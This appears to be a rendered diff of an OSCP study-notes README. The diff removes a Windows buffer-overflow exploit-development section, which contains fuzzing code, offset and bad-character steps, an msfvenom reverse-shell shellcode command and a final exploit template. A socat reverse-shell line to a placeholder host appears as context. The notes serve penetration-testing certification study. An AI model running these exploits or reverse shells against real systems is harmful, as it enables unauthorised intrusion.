

Before and after one commit to anshu19981/Oscp, a Markdown page: README.md, the part around one of its changes. Shown at 83% size. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -1707,69 +1707,7 @@ socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<LHOST>:4444
 
 ---
 
-## 11. EXPLOIT DEVELOPMENT (BOF REFERENCE)
-
-### Windows x86 Stack Buffer Overflow
-
-```python
-# ── Step 1: Fuzzing ──────────────────────────────────────────
-import socket, time
-
-payload = b"A" * 100
-while True:
-    try:
-        s = socket.socket()
-        s.connect(('TARGET_IP', PORT))
-        banner = s.recv(1024)
-        s.send(b"COMMAND " + payload + b"\r\n")
-        s.close()
-        print(f"[*] Sent {len(payload)} bytes")
-        payload += b"A" * 100
-        time.sleep(1)
-    except Exception as e:
-        print(f"[!] Crashed at ~{len(payload)} bytes")
-        break
-
-# ── Step 2: EIP Offset ───────────────────────────────────────
-# Generate pattern:
-msf-pattern_create -l <CRASH_LENGTH>
-# In Immunity Debugger:
-# !mona findmsp -distance <CRASH_LENGTH>
-# Note the EIP offset value
-
-# ── Step 3: Verify EIP Control ───────────────────────────────
-# payload = b"A" * OFFSET + b"B" * 4 + b"C" * (2000 - OFFSET - 4)
-# EIP should = 42424242
-
-# ── Step 4: Bad Chars ────────────────────────────────────────
-# \x00 always bad; test all others
-# !mona bytearray -b "\x00"
-# Send all chars; compare in Immunity hex dump to mona bytearray
-# !mona compare -f C:\mona\bytearray.bin -a <ESP_ADDRESS>
-
-# ── Step 5: JMP ESP ──────────────────────────────────────────
-# !mona jmp -r esp -cpb "\x00\x0a\x0d"  (add your bad chars)
-# Pick address from module with no ASLR/DEP/SafeSEH/Rebase
-
-# ── Step 6: Shellcode ────────────────────────────────────────
-msfvenom -p windows/shell_reverse_tcp LHOST=<LHOST> LPORT=4444 \
-    -f python -b "\x00\x0a\x0d" EXITFUNC=thread
-# EXITFUNC=thread keeps the service running
-
-# ── Step 7: Final Exploit ────────────────────────────────────
-from struct import pack
-
-offset   = <OFFSET_VALUE>
-jmp_esp  = pack("<I", <JMP_ESP_ADDRESS>)  # little-endian
-nops     = b"\x90" * 16
-# Paste msfvenom buf here as shellcode
-
-payload = b"A" * offset + jmp_esp + nops + shellcode
-```
-
----
-
-## 12. COMMON CVEs & EXPLOITS
+## 11. COMMON CVEs & EXPLOITS
 
 ### High-Value CVE Quick Reference
 
````
Also changed, not shown: other parts of README.md (+43 -44 lines).
